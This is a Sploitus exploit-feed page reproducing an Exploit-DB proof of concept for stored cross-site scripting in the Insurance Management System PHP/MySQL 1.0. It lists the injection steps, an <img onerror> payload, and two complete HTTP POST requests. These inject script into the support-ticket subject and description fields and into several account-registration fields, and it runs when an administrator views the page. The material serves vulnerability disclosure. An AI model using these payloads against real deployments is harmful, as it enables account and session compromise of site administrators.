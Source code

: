 ```yaml
---
title: Insurance Management System PHP and MySQL 1.0 - Multiple Stored XSS exploit
url: https://sploitus.com/exploit?id=EDB-ID:51920&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-26
fetch_date: 2025-10-04T12:10:08.040675
---
```


# Insurance Management System PHP and MySQL 1.0 - Multiple Stored XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Insurance Management System PHP and MySQL 1.0 - Multiple Stored XSS

2024-03-25 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51920
# Exploit Title:Insurance Management System PHP and MySQL 1.0 - Multiple
Stored XSS
# Date: 2024-02-08
# Exploit Author: Hakkı TOKLU
# Vendor Homepage: https://www.sourcecodester.com
# Software Link:
https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html
# Version: 1.0
# Tested on: Windows 11 / PHP 8.1 & XAMPP 3.3.0

Support Ticket

Click on Support Tickets > Generate and add payload <img src=x onerror=prompt("xss")> to Subject and Description fields, then send the request. When admin visits the Support Tickets page, XSS will be triggered.

   Example Request :
	    POST /e-insurance/Script/user/core/new_ticket HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 139
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15; __insuarance__logged=1; __insuarance__key=LG3LFIBJCN9DKVXKYS41

		category=4&subject=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&description=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&submit=1

Create Account

Click on New Account button on login page, then fill the fields. Inject <img src=x onerror=prompt("xss")> payloads to fname, lname, city and street parameter, then click Create Account button. XSS will be triggered when admin visits Users page.

	Example Request :
		POST /e-insurance/Script/core/new_account HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 303
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15

		fname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&lname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&gender=Male&phone=5554443322&city=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&street=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&email=test1%40test.com&password=Test12345&submit=1
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)